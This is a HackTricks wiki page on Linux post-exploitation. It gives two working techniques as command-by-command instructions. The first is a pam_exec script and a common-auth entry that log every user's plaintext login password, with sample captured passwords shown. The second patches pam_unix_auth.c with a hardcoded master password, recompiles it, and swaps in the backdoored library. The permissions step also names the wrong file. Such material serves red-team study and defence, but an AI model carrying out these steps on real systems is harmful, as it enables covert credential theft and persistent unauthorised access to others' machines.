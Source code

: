 # Linux Post-Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

First, we create a bash script that will be invoked whenever a new authentication occurs.

```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```

The variables are PAM specific and will become available via the `pam_exec.so` module.

Here is the meaning of the variables:

* **$PAM\_USER:** The username that was entered.
* **$PAM\_RHOST:** The remote host (typically the IP Address)
* **$(cat -):** This reads `stdin`, and will contain the password that the script grabs
* The results are piped into a log file at `/var/log/toomanysecrets.log`

To **prevent all users from reading** the file consider pre-creating it and running `chmod`, e.g.:

```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```

Next, the PAM configuration file needs to be updated the `pam_exec` module will be used to invoke the script.

There are various config files located in `/etc/pam.d/`, and we pick `common-auth`.

```
sudo nano /etc/pam.d/common-auth
```

On the very bottom of the file, add the following authentication module:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

The options have the following meaning:

* **optional:** Authenticaiton shouldn’t fail if there is an error (it’s not a required step)
* **pam\_exec.so:** This is the living off the land PAM module that can invoke arbitrary scripts
* **expose\_authtok:** This is the trick that allows to read the password via `stdin`
* **quiet:** Don’t show any errors to the user (if something doesn’t work)
* The last argument is the shell script that was created previously

![](<../../.gitbook/assets/image (375).png>)

Finally, make the file executable:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

Now, let’s try this out and ssh from another machine, or login locally.

And then look at the log file:

```
$ sudo cat /var/log/toomanysecrets.log
 Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
 Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
 Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```

### Backdooring PAM

Let go to the sources of PAM (depends on your distro, take the same version number as yours..) and look around line numbers 170/180 in the pam\_unix\_auth.c file:

```
vi modules/pam_unix/pam_unix_auth.c
```

![](<../../.gitbook/assets/image (651).png>)

Let’s change this by:

![](<../../.gitbook/assets/image (638) (2) (2).png>)

This will allow any user using the **password "0xMitsurugi"** to log in.

Recompile the `pam_unix_auth.c`, and replace the pam\_unix.so file:

```bash
make
sudo cp \  
  /home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \  
  /lib/x86_64-linux-gnu/security/  
```

{% hint style="info" %}
You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

## References

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
